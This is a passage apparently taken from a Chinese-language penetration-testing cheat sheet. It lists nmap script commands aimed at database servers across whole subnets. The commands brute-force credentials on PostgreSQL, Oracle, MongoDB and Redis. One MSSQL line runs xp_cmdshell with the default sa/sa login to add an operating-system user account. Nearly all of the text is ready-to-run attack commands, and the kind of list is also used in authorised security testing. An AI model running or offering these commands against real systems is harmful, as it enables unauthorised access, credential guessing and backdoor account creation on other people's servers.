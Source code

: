     `nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd=net user test test add xxx.xxx.xxx.xxx/24`

- postgresql

    爆破

    `nmap -p 5432 --script pgsql-brute -v xxx.xxx.xxx.xxx/24`

- oracle

    爆破

    `nmap --script oracle-brute-stealth -p 1521 --script-args oracle-brute-stealth.sid=ORCL  -v xxx.xxx.xxx.xxx/24`

    `nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=ORCL -v xxx.xxx.xxx.xxx/24`

- mongdb

    爆破

    `nmap -p 27017  --script mongodb-brute xxx.xxx.xxx.xxx/24`

- redis

    爆破

    `nmap -p 6379 --script redis-brute.nse xxx.xxx.xxx.xxx/24`
